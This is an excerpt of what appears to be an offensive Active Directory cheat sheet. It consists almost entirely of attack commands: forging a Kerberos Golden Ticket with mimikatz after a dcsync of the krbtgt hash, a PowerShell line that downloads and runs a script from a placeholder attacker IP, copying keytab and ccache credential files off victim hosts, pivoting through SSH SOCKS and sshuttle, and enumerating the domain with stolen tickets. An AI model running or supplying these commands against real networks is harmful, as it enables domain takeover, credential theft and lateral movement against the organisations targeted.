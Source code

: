 ### Golden Ticket (example outline)

```powershell
.\mimikatz.exe "lsadump::dcsync /domain:<DOMAIN> /user:<KRBTGT_USER>"

# Get domain SIDs
IEX(New-Object Net.WebClient).DownloadString("http://<ATTACKER_IP>/PowerView.ps1")
Get-DomainSID -Domain <DOMAIN>

# Forge & inject
mimikatz.exe "kerberos::golden /user:h4x /domain:<DOMAIN> /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_NTLM> /ptt"
.\PsExec64.exe /accepteula \\<DC_HOST> cmd
```

---

## Key Material Handling

### Keytab

```bash
# Copy keytab then extract
scp -i ~/.ssh/id_rsa root@<VICTIM_IP>:/etc/krb5.keytab krb5.keytab
python3 keytabextract.py krb5.keytab
```

### CCache Ticket

```bash
# Copy & set
scp -i ~/.ssh/id_rsa <USER>@<VICTIM_IP>:/tmp/krb5cc_<ID> /tmp/krb5cc_<ID>
export KRB5CCNAME=/tmp/krb5cc_<ID>

# Kerberos client
sudo apt install -y krb5-user
# /etc/hosts → ensure DC & realm mapping

# SOCKS proxy via SSH
ssh -i ~/.ssh/id_rsa <USER>@<VICTIM_IP> -D 9050

# Alternative: sshuttle
sshuttle -v -e "ssh -i /home/kali/.ssh/id_rsa" -r root@<VICTIM_IP> <TARGET_SUBNET>/24
```

### Directory Enumeration (ticketed)

```bash
proxychains impacket-GetADUsers -all -k -no-pass -dc-ip <DC_IP> <DOMAIN>/<USER>
proxychains impacket-GetUserSPNs -k -no-pass -dc-ip <DC_IP> <DOMAIN>/<USER>
proxychains bloodhound-python -k -no-pass -u <USER> -ns <DC_IP> -d <DOMAIN> -c all --zip --dns-tcp
```

---